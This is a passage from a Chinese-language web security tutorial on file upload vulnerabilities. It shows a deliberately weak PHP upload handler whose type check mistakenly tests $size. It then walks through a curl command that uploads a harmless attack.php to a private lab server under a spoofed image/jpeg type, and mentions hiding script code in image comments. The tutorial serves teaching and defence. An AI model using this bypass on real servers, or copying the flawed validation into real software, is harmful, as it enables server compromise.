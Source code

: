 上传文件漏洞也是一种常见的web漏洞，攻击者可以用利用服务器端的上传文件漏洞绕过安全验证将代码提交到服务器端，并想办法让代码文件被执行。一单可执行的代码上传成功，会造成比较严重的安全问题，比如获取服务器权限，为攻击者开后门，或者让服务器超载，破快服务器的可用性，甚至是上传病毒，木马。

​

​ 我们通过一个例子演示利用文件上传漏洞进行攻击的例子，下面的代码负责接受上传文件，并保存在`./uploads/`目录中（在单机应用的场景下，文件和应用程序保存在一起是比较常见的）。

```
<?php
//上传文件路径
$upload_path = "./uploads/";
$upload_file_path = $upload_path . basename($_FILES['uploadedfile']['name']);

$size = $_FILES['uploadedfile']['size'];
$type = $_FILES['uploadedfile']['type'];

//验证文件大小和文件类型
if ($size < 1000000 && ($size == 'image/jpeg' || $size == 'image/png')) {

    print_r($_FILES['uploadedfile']);
    echo "\n";

    if (move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $upload_file_path)) {
        echo "上传成功\n";
    } else {
        echo "上传失败\n";
    }
}
?>
```

上面的代码有基本的校验逻辑，比如文件大小验证，和文件类型验证，看似问题不大，其实不然。我们构造一个 php 脚本，代码如下，通过 curl 命令伪造成图片类型并上传。

PHP 脚本，文件名为 attack.php

```
<?php
echo "attack success !!!";
?>
```

使用 curl 命令上传文件，并将 Content-Type 改成

`image/jpeg`

。

```
$ curl 'http://192.168.56.101/upload.php'  -H 'Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryCHKmsM8kfbHlN8Ff' --data-binary $'------WebKitFormBoundaryCHKmsM8kfbHlN8Ff\r\nContent-Disposition: form-data; name="uploadedfile"; filename="attack.php"\r\nContent-Type: image/jpeg\r\n\r\n\r\n------WebKitFormBoundaryCHKmsM8kfbHlN8Ff--\r\n'

Array
(
    [name] => attack.php
    [type] => image/jpeg
    [tmp_name] => /home/bitnami-nginxstack/php/tmp/phpjWsmp3
    [error] => 0
    [size] => 0
)

上传成功
```

，脚本文件被成功上传到服务器上，通过[http://192.168.56.101/uploads/attack.php](http://192.168.56.101/uploads/attack.php)可以访问，从而达到攻击目的，通过这种方式攻击者可以上传任意类型的文件。

​ 上面介绍的是直接将脚本文件未造成图片类型实现攻击，某些情况下还可以将脚本嵌入到图片中，比如我么能通过GIMP随便编辑一张图片，在图片导出时，在Comment字段中添加我们的攻击代码，这样会修改图片的头信息，代码文本嵌入到图片中，但图片还是正常合法的图片。如下图所示：

EA6864F3-DD35-40B2-A397-00021799DA31.png


